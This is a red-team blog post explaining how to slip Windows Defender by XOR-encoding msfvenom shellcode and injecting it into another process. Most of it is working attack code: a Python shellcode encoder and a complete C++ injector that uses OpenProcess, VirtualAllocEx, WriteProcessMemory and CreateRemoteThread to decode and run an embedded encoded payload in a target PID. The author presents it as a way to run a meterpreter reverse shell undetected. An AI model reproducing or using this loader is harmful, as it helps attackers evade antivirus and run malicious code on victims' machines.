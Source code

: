 ```yaml
---
layout: post
title: "How to Bypass Windows Defender"
featured-img: Bypass_Windows_Defender\background
categories: [cpp, shellcode, redteam, Windows Defender]
---
```


Hey yo I am back with a new blog post. In this post I am going to talk about how to bypass the windows defender to run your meterpreter reverse shell.


# SUMMARY

I am going to use the previous blog post technique [HERE](https://xret2pwn.github.io/process-inection/) but i will add one/two thing(s) which is i will xor my shell code and i will xor again while writing the shellcode into the memory.



# SHELLCODE

I'm created a shellcode through msfvenom that's popup a message box. After creating the shellcode i will xor it.  
The following script is a python to encode my shellcode.

```py
raw_shellcode = "!Replace me with your shellcode"
enc_shellcode = []
print ("[+] Shellcode is encoding")
for opcode in raw_shellcode:
        enc_opcode = (ord(opcode) ^ 0x41)
        enc_shellcode.append(enc_opcode)


print ("========================Shellcode========================\n\n")
print ("".join(["\\x{0}".format(hex(abs(i)).replace("0x", "")) for i in enc_shellcode]))
print ("\n\n========================Shellcode========================")

```

![screenshot_1](/assets/img/posts/Bypass_Windows_Defender/xor_python_script.png)

So now i will generate my encoded shellcode  

![screenshot_2](/assets/img/posts/Bypass_Windows_Defender/encoded_shellcode.png)


# WINAPIs

Our shellcode is ready now so let's create our process injection binary.  
But firstly i will describe some winapis we will use it.  


## OpenProcess

```cpp
HANDLE OpenProcess(
  DWORD dwDesiredAccess,
  BOOL  bInheritHandle,
  DWORD dwProcessId
);
```
I am going to use **OpenProcess** to open a process by giving it the PID of that process. because the main idea of process injection is a create a new allocation space for the shellcode in a local process then write the shellcode in that allocation and execute it so before creating a new allocation into the memory you need to open this process first make sense right?  

NOTE:  
You need to close the opened handle through **CloseHandle()**

## VirtualAllocEx

```cpp
LPVOID VirtualAllocEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```
I am going to use **VirtualAllocEx** to allocate a new memory space for my shellcode in anther process.  

Why i used **VirtualAllocEx** not **VirtualAlloc**?  
Because I need to allocate memory space in another process address space, catch it!  

Basically you can use **VirtualAlloc** for your current process but **VirtualAllocEx** for another local process.  


## WriteProcessMemory

```cpp
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```

I am going to use **WriteProcessMemory** to write the shellcode in new allocation which is I created in another process through **VirtualAllocEx**  


## VirtualProtectEx

```cpp
BOOL VirtualProtectEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);
```

I am going to use **VirtualProtectEx** to change the protection permission 

## CreateRemoteThread 

```cpp
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```

I am going to use **CreateRemoteThread** to create a thread that runs in the virtual address space of another process and optionally specify extended attributes.    

What is the difference between **CreateThread** and **CreateRemoteThread**?  

CreateThread is only allows you to create a thread for the current process.  

CreateRemoteThread is allows you to create a thread for anther local process.


# PWN

After discussing some WINAPIs we will create our process injection binary that's bypass the windows defender let's start with creating our CPP.  

There is just one step I would like to discuss it before writing the code which is i will decode the shellcode opcode by opcode.   

```cpp
#include <stdio.h>
#include <Windows.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = "\x98\xaa\xda\x98\x35\x65\xb5\x70\x93\xf3\x36\x70\x88\x25\xca\x30\x71\xca\x37\x4d\xca\x37\x5d\xca\x7\x49\xca\x3f\x61\xca\x77\x79\xe\x59\x34\xb2\x18\x40\x90\xbe\xa0\x21\xca\x2d\x65\x65\xca\x4\x7d\xca\x15\x69\x39\x40\xab\xca\xb\x59\xca\x1b\x61\x40\xaa\xa2\x75\x8\xca\x75\xca\x40\xaf\x70\xbe\x70\x81\xbd\xed\xc5\x81\x35\x46\x80\x8e\x4c\x40\x86\xaa\xb5\x7a\x3d\x65\x69\x34\xa0\xca\x1b\x65\x40\xaa\x27\xca\x4d\xa\xca\x1b\x5d\x40\xaa\xca\x45\xca\x40\xa9\xc8\x5\x65\x5d\x20\x82\xf3\x49\x68\x95\xc8\xa4\xc8\x83\x29\xcf\xf\x4f\xad\x13\xa9\xde\xbe\xbe\xbe\xc8\x4\x45\xfa\x3f\x99\xa3\x32\xc6\x5d\x65\x13\xa9\xcf\xbe\xbe\xbe\xc8\x4\x49\x29\x2d\x2d\x61\x0\x29\x72\x73\x6f\x25\x29\x34\x32\x24\x33\x71\x9a\xc9\x1d\x65\x4b\xc8\xa7\x17\xbe\x14\x45\xc8\x83\x11\xfa\xe9\xe3\xc\xfd\xc6\x5d\x65\x13\xa9\x1e\xbe\xbe\xbe\x29\x2e\x39\x19\x61\x29\x20\x26\x24\x3\x29\xc\x24\x32\x32\x70\x9a\xc9\x1d\x65\x4b\xc8\xa2\x29\x31\x36\x2f\x19\x29\x13\x24\x35\x73\x70\x88\xc9\xd\x65\x46\xc8\xa0\x70\x93\x13\x12\x10\x13\xbe\x91\x70\x81\x11\xbe\x14\x49";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;
    DWORD oldPerms;
    DWORD PID = 16772;
    printf("Injecting to PID: %i", PID);
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READ);

    int i;
    int n = 0;
    for (i = 0; i <= sizeof(shellcode); i++) {
        char dec_opcode = shellcode[i] ^ 0x41;
        if (WriteProcessMemory(processHandle, (char*)remoteBuffer + n, &dec_opcode, 1, NULL)) {
            n++;

        }
    }
    VirtualProtectEx(processHandle, (LPVOID)sizeof(processHandle), sizeof(shellcode), PAGE_READONLY, &oldPerms);
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);

    return 0;
}
```

![screenshot_3](/assets/img/posts/Bypass_Windows_Defender/Final_code.png)


In the for loop I decoded the shellcode with writing the opcode into the memory immediately.  
So let's compile it and see what will happen?  


![screenshot_4](/assets/img/posts/Bypass_Windows_Defender/Windows_Defender_Bypassed.png)

Yup we have been bypassed the windows defender.🔥🔥🔥

_____________________________________________  

  
   


|   Authors    | Twitter | LinkedIn |
| ----------- | ----------- |----------- |
| Hazem Hisham (Ret2pwn) | [@Twitter](https://twitter.com/RET2_pwn) |[@LinkedIn](https://www.linkedin.com/in/hazem-hesham/) |